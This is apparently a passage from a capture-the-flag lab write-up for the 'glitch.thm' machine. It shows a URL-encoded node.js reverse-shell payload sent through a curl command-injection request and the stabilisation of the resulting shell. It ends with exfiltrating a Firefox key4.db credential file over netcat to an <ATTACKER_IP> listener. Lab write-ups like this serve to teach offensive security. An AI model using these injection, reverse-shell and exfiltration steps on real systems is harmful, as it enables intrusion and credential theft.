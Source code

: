 Next, we will generate our payload using [RevShells](https://www.revshells.com/). Enter the attacking machine's IP and port:

![37638d61c219da5bc15e24350fa161af.png](/resources/309d9339dca246cc8950d939705a9120.png)

Scroll down the list and click on "node.js #2", select "URL Encode" from the "Encoding" dropdown list and copy the payload when generated:

![223609209c7d61e4b712ac6150183924.png](/resources/31976f6a0a2f422a92bbcaf95171f25c.png)

Send the command using `curl` and we should get a connection back on our listener:

```sh
curl -vvv -X POST http://glitch.thm/api/items/?cmd=<REVSHELL_PAYLOAD>
```

![4c82767b2b49890a3c00e58971d15149.png](/resources/49fc39dfe3f443378722190506fca77b.png)

Let's stablize the shell we just got by doing the following steps:

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` ... Use Python to spawn a stable shell
2. `CTRL + Z` ... Backgrounds the current shell
3. `stty raw -echo;fg` ... Fixes echoing and foregrounds the shell
4. `export TERM=xterm-256color` ... Sets terminal to xterm

We can find the user flag in `/home/user/user.txt`:

```sh
cd /home/user/
ls -lah
cat user.txt
```

![366605078e87a0d433c1f3724fc73255.png](/resources/38260578ef4247d9b250f2eca8487423.png)

# Privilege Escalation

### \[-] v0id\@ubuntu

Inside the `/home/user/.firefox/b5w4643p.default-release/` directory, we will find saved login credential files that are encrypted:

![12ddf00c229d6d4f75062a9b4c5d071f.png](/resources/2731a369ca9844f78abffa8fc4a090da.png)

To decrypt the files, we will first need to transfer them to our attacking machine.

Start another listener on port 4445:

```sh
nc -nvlp 4445 > key4.db
```

Then on the victim machine, send the file using Netcat:

```sh
nc -nv <ATTACKER_IP> 4445 < key4.db
```
